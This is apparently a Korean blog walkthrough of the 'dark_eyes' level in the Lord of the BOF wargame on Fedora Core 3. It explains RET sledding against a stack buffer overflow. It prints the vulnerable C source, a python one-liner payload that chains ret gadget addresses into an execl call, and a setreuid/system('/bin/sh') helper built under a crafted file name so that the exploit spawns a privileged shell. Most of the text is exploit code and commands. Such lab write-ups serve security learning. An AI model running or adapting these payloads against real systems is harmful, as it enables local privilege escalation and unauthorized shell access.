


ret sleding에 대해 쓰는 글

아래는 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - dark_eyes
    - Local BOF on Fedora Core 3
    - hint : RET sleding
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    char saved_sfp[4];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // save sfp
    memcpy(saved_sfp, buffer+264, 4);

    // overflow!!
    strcpy(buffer, argv[1]);

    // restore sfp
    memcpy(buffer+264, saved_sfp, 4);

    printf("%s\n", buffer);
}
```

buffer+264번지에 sfp, buffer+268번지에 ret이 있다. 이 단계는 sfp를 쓸 수 없다.

RET sleding은 ret으로 ret 명령어가 있는 주소를 가리키는 걸 뜻한다.

ret ret ret은 pop eip, pop eip, pop eip를 뜻하는데, 스택을 파괴하는 nop 느낌으로 쓰면 될듯.

이 문제에서 이걸 이용해서 어떻게 푸냐... 하면 execl 함수를 호출할 때 사용할 것이다.

참고로 execl은 execl("/bin/sh", NULL); 같은 느낌으로 써주면 된다.

얼추 내가 원하는 모양을 써서 gdb로 확인해보면



execl(0x0083eff4, 0x00000000);과 같은 식으로 호출되면 참 그림이 좋을 것 같다. 0x007a5720을 오른쪽으로 2번 밀어주자.

그럼 아래와 같은 코드가 완성된다.

./dark_eyes "`python -c 'print "A"*268 + "\xb9\x84\x04\x08"*3 + "\x20\x57\x7a"'`"

참고로 0x080484b9는 ret 명령어 주소, 0x007a5720은 execl 함수 주소.

그리고 0x0083eff4에는



0x83ed3c가 있다.

아래와 같은 코드를 작성해서 0x83ed3c로 실행파일명을 준비해주자.

```c
#include <unistd.h>
int main() {
    setreuid(geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}
```

```sh
gcc shell.c -o `python -c 'print "\x3c\xed\x83"'`
```

그 다음에 저 위에 써놓은 코드를 쓰면 sh 실행이 된다.
